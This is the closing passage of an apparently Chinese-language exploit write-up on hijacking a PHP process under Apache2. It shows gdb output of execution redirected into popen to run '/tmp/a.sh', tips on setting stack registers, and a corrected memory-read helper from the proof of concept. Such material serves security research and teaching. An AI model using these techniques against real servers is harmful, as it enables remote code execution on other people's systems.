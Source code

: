 ```
R12: 0x7fc6f2798c1c --> 0x0
R13: 0x7fc6f27ae8c0 --> 0x40 ('@')
R14: 0x7fc6edc12030 --> 0x7fc6e7458f70 --> 0x7fc6f2451a00 (push   r12)
R15: 0x7fc6e7458f70 --> 0x7fc6f2451a00 (push   r12)
EFLAGS: 0x203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7fc6f52fa530 <_IO_new_proc_open+848>:  jmp    0x7fc6f52fa4da <_IO_new_proc_open+762>
   0x7fc6f52fa532:  nop    DWORD PTR [rax+0x0]
   0x7fc6f52fa536:  nop    WORD PTR cs:[rax+rax*1+0x0]
=> 0x7fc6f52fa540 <_IO_new_popen>:  push   r12
   0x7fc6f52fa542 <_IO_new_popen+2>:    push   rbp
   0x7fc6f52fa543 <_IO_new_popen+3>:    mov    rbp,rdi
   0x7fc6f52fa546 <_IO_new_popen+6>:    push   rbx
   0x7fc6f52fa547 <_IO_new_popen+7>:    mov    edi,0x100
[------------------------------------stack-------------------------------------]
0000| 0x7fc6edc6eb18 --> 0x0
0008| 0x7fc6edc6eb20 --> 0x0
0016| 0x7fc6edc6eb28 --> 0x0
0024| 0x7fc6edc6eb30 --> 0xc01a000800000001
0032| 0x7fc6edc6eb38 --> 0x1b
0040| 0x7fc6edc6eb40 --> 0x56478a526ed0 --> 0x1
0048| 0x7fc6edc6eb48 --> 0x7fc6f27ae8c0 --> 0x40 ('@')
0056| 0x7fc6edc6eb50 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Thread 2.1 "apache2" hit Breakpoint 1, _IO_new_popen (command=0x7fc6edc6ec30 "/tmp/a.sh", mode=0x7fc6edc6ec28 "r") at iopopen.c:273

```

别忘了$rsp和$rbp都需要设置好，不然popen不会执行成功的。

**最后，有两点要说明一下：**

原文poc提供的`read_ptr`有问题，读地址的时候会中间丢掉0

感谢phithon与毕月乌大牛提供正确版本的函数

```
function read_ptr(&$mystring,$index=0,$little_endian=1){
    $s = "";
    for($i = 1; $i <= 8; $i++) {
        $s .= str_pad(dechex(ord($mystring[$index+(8-$i)])), 2, '0', STR_PAD_LEFT);
    }
    return hexdec($s);
}

```

另外就是，采用popen这个函数来完成最后的shellcode动作，是因为这个函数在libphp.so的plt里面提供了地址。如果要用system的话，还要到libc里面去找，多算一个模块的地址，就多了一份麻烦和不稳定。

![p6](http://drops.javaweb.org/uploads/images/8e655e75da8a663372b36c2b2ea907324a6442c4.jpg)
